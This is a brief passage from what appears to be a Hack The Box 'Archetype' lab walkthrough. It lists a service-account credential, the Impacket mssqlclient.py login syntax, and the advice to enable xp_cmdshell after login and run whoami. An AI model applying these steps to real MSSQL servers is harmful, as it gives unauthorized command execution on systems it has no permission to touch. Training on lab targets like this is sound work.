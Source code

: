 - `ARCHETYPE\sql_svc:M3g4c0rp123`

# <u>2:Foothold/Gaining Access</u>

# <u>mssqlclient.py[Impacket]</u>

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![6](/assets/images/htb/archetype/6.png)

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![7](/assets/images/htb/archetype/7.png)
